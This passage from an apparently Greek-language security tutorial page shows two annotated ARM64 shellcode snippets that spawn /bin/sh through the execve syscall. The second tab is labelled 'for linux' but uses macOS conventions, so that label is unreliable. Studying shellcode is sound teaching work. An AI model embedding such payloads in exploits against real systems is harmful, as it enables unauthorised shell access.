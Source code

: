 {% tab title="με στοίβα" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
; We are going to build the string "/bin/sh" and place it on the stack.

mov  x1, #0x622F  ; Move the lower half of "/bi" into x1. 0x62 = 'b', 0x2F = '/'.
movk x1, #0x6E69, lsl #16 ; Move the next half of "/bin" into x1, shifted left by 16. 0x6E = 'n', 0x69 = 'i'.
movk x1, #0x732F, lsl #32 ; Move the first half of "/sh" into x1, shifted left by 32. 0x73 = 's', 0x2F = '/'.
movk x1, #0x68, lsl #48   ; Move the last part of "/sh" into x1, shifted left by 48. 0x68 = 'h'.

str  x1, [sp, #-8] ; Store the value of x1 (the "/bin/sh" string) at the location `sp - 8`.

; Prepare arguments for the execve syscall.

mov  x1, #8       ; Set x1 to 8.
sub  x0, sp, x1   ; Subtract x1 (8) from the stack pointer (sp) and store the result in x0. This is the address of "/bin/sh" string on the stack.
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.

; Make the syscall.

mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

```
{% endtab %}

{% tab title="με adr για linux" %}
```armasm
; From https://8ksec.io/arm64-reversing-and-exploitation-part-5-writing-shellcode-8ksec-blogs/
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
adr  x0, sh_path  ; This is the address of "/bin/sh".
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}
{% endtabs %}
